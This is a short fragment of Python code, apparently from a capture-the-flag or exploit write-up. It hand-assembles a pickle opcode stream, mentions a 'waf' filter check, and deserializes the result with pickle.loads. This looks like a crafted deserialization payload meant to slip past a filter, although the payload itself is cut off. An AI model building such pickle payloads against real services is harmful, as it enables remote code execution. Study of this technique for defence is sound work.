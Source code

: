 			      ],
			  )
			  opcode = pickle_obj(renderfunc_opcode, [])
			  opcode += b"."
			  opcode = add_pickle_header(opcode)
			  # pickletools.dis(opcode)
			  # print(waf(opcode))
			  print(opcode)
			  print(pickle.loads(opcode))
			  ```